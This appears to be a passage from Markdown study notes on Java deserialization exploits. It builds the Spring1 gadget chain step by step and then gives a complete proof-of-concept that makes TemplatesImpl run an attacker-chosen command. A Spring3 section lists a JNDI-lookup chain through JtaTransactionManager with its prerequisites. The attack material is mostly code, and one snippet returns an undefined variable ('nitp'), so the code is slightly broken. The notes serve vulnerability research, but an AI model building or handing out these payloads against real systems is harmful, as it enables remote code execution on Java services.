 
Build `TypeProvider` proxy to hook `getType()`:
```java
final Object typeProviderProxy = Gadgets.createMemoitizedProxy(  
      Gadgets.createMap("getType", typeTemplatesProxy),  
      forName("org.springframework.core.SerializableTypeWrapper$TypeProvider"));
```

Build `MethodInvokeTypeProvider` and modify `methodName`:
```java
final Constructor mitpCtor = Reflections.getFirstCtor("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");  
final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);  
Reflections.setFieldValue(mitp, "methodName", "newTransformer");
return nitp;
```

Whole Poc:
```java
final Object templates = Gadgets.createTemplatesImpl(command);  
  
final ObjectFactory objectFactoryProxy =  
      Gadgets.createMemoitizedProxy(Gadgets.createMap("getObject", templates), ObjectFactory.class);  
  
final Type typeTemplatesProxy = Gadgets.createProxy((InvocationHandler)  
      Reflections.getFirstCtor("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler")  
         .newInstance(objectFactoryProxy), Type.class, Templates.class);  
  
final Object typeProviderProxy = Gadgets.createMemoitizedProxy(  
      Gadgets.createMap("getType", typeTemplatesProxy),  
      forName("org.springframework.core.SerializableTypeWrapper$TypeProvider"));  
  
final Constructor mitpCtor = Reflections.getFirstCtor("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");  
final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);  
Reflections.setFieldValue(mitp, "methodName", "newTransformer");  
  
return mitp;
```

### Spring3

> [!NOTE] pre-requirements
> Reproduced on JDK1.8
> org.springframework:spring-tx:5.2.3.RELEASE
> org.springframework:spring-context:5.2.3.RELEASE
> javax.transaction:javax.transaction-api:1.2

```java
//Gadget chain
lookup:179, JndiTemplate (org.springframework.jndi)
lookupUserTransaction:571, JtaTransactionManager (org.springframework.transaction.jta)
initUserTransactionAndTransactionManager:448, JtaTransactionManager (org.springframework.transaction.jta)
readObject:1206, JtaTransactionManager (org.springframework.transaction.jta)
```


[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)